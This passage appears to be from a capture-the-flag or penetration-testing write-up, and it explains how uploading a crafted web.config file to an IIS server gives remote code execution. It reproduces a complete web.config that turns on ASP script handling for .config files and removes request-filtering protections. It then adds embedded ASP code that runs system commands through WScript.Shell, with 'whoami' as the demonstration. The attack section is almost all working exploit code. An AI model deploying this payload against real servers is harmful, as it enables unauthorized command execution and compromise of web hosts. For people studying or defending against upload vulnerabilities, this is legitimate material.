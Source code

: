 ### Use `web.config` to run `aspx`

I googled "aspx config rce" and found the following post :
https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/

It says that I can use `web.config` file to run `aspx` code.
And here's the template :


```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```

I uploaded the file, and I got "3" when I fetched `/uploadedfiles/web.config`, which implies that the `aspx` code is executed!

Let's edit the `aspx` code part to run RCE.

```xml
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
Response.write("<pre>")
Set wShell = CreateObject("WScript.Shell")
Set cmd = wShell.Exec("cmd /c whoami") 
output = cmd.StdOut.ReadAll()
Set cmd = Nothing
Set wShell = Nothing

Response.write(output)
Response.write("</pre><!-"&"-")
%>
-->
```
